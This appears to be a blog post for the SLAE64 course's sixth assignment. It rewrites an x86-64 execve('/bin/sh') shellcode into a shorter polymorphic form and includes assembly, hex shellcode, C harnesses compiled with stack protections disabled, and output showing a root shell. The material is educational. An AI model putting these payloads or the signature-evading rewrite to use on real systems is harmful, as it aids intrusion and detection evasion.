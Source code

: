 ```yaml
---
title: SLAE64 Assignment 6 - Polymorphic Execve
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the sixth assignment of the SLAE64, I created three polymorphic payloads from shellcodes on shellstorm and the exploit db. This is the first payload, execve.

This polymorphic version is 5 bytes shorter than the original, and maintains the same functionality.

# Original Shellcode
http://shell-storm.org/shellcode/files/shellcode-76.php
```nasm
# [Linux/X86-64]
# Dummy for shellcode:
# execve("/bin/sh", ["/bin/sh"], NULL)
# hophet [at] gmail.com
.text
    .globl _start
_start:
    xorq    %rdx, %rdx
    movq    $0x68732f6e69622fff,%rbx
    shr $0x8, %rbx
    push    %rbx
    movq    %rsp,%rdi
    xorq    %rax,%rax
    pushq   %rax
    pushq   %rdi
    movq    %rsp,%rsi
    mov $0x3b,%al   # execve(3b)
    syscall
    pushq   $0x1
    pop %rdi
    pushq   $0x3c       # exit(3c)
    pop %rax
    syscall
```
+ As we can see above, this is AT&T assembly syntax.

## Intel Assembly Version of the Shellcode

```nasm 
; [Linux/X86-64]
; Dummy for shellcode:
; execve("/bin/sh", ["/bin/sh"], NULL)
; hophet [at] gmail.com
_start:
    xor    rdx, rdx
    mov    rbx, 0x68732f6e69622fff
    shr rbx, 0x8
    push    rbx
    mov    rdi, rsp
    xor    rax, rax
    push   rax
    push   rdi
    mov    rsi, rsp
    mov al, 0x3b   ; execve(3b)
    syscall
    push  0x1
    pop rdi
    push  0x3c     ; exit(3c)
    pop rax
    syscall
```
+ Much better now without all those percentage and dollar signs.

## Compiling the Shellcode
```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53"
"\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f"
"\x6a\x3c\x58\x0f\x05";
int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

## Testing the Shellcode
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# ./shellcode
Shellcode Length:  41
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Polymorphic Version
```nasm
_start:
xor rsi, rsi ; rsi = 0x0
mul rsi      ; rax & rdx = 0x0
mov rcx, 0x68732f6e69622fff ; /bin/sh,0xff
shr rcx, 0x8
push rcx
mov rdi, rsp
mov al, 0x3b        ; execve system call
syscall

push 0x1
pop rdi
push 0x3c            ; exit(3c)
pop rax
syscall
```
+ I used the `mul rsi` technique to clear `rdx` & `rax`.
+ No need for the pointer to a pointer in `rsi` so I got rid of it.
+ I changed `rbx` to `rcx`.

### Polymorphic Version in Host Program
```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\x48\x31\xf6\x48\xf7\xe6\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73"
"\x68\x48\xc1\xe9\x08\x51\x48\x89\xe7\xb0\x3b\x0f\x05\x6a\x01"
"\x5f\x6a\x3c\x58\x0f\x05";

int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

### Compile and Test
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode-poly.c -o shellcode-poly
root# ./shellcode-poly
Shellcode Length:  36
# id
uid=0(root) gid=0(root) groups=0(root)
```
+ Awesome! The shellcode is shorter and works as intended!

